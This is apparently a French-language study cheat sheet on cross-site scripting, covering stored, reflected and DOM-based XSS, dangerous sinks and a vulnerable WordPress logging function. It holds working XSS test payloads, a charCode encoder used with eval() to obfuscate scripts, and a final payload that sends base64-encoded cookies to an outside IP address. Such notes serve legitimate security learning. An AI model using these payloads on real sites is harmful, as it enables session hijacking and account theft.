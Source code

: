 Code exécuté sur une page chargé par un autre utilisateur. Causé par une mauvaise gestion des charactères spéciaux
# Chemin d'une requête
Plusieurs intervenant peuvent encoder/bloquer des requêtes causants plusieurs cas étranges à divers niveaux.
Navigateur(encode)/Outils(encode pas) -> WAF(pourrait filtrer) -> serveur(décode,décode pas,encode, encode pas) -> réponse (en-tête de protection, pas d'en-tête)

# Stored (Persistent)
Le contenu malicieu est placé sur le serveur pour être retourné plus tard à un utilisateur. Ex: post ou commentaire.
# Reflected (non-persistent)
Le contenu se trouve dans la requête ou le lien. Ex: Résultat de recherche ou message d'erreur
# DOM-based XSS (Non-persistent)
N'atteint jamais le serveur. Affiché dans le navigateur et processé du côté client. Ne charge pas une nouvelle page mais modifie la page courrante (DOM). Ex: paramètre HTTP côté client ou tag d'encrage.
Source: objet JS qui prend entrées utilisateur (param URL ou champ)
Sink: Fonction qui écrit l'entrée vers un DOM
* document.write()
* DOM.innerHTML
* DOM.outerHTML
* add()
* after()
* append()
Regarder le code JS, si les entrées ne sont pas vérifié

# Détection
Indice: si on peut voir un résultat d'une de nos entrées	
Vérifier que les charactères spéciaux sont supportés:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< > ' " { } ;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
<script>alert(42)</script>
<script>alert(window.origin)</script>
<script>print()</script>
#Transorme le code le suivant en texte
<plaintext>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<iframe src=”javascript:alert(1)”></iframe>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

On peut ensuite voir notre dans le code source de la page.

# Example de code vulnérable
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
		$table_name,
		array(
			'patch' => $_SERVER["REQUEST_URI"],
			'datetime' => current_time( 'mysql' ),
			'useragent' => $_SERVER['HTTP_USER_AGENT'],
			'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
		)
	);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

useragent inclue directement le contenu de l'en-tête

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~html
<td>'.$record->useragent.'</td>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Exécuter du code en HTML
1.  minifier le code (https://jscompress.com/ )
2.  encoder 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



*eval()* exécute du code javascript en string

```js
<script>eval(String.fromCharCode(118,97,...,59))</script>
```

# Voler des cookies
```js
<img src=x onerror=this.src='[http://10.10.14.115:8000/'+btoa(document.cookie)>
```

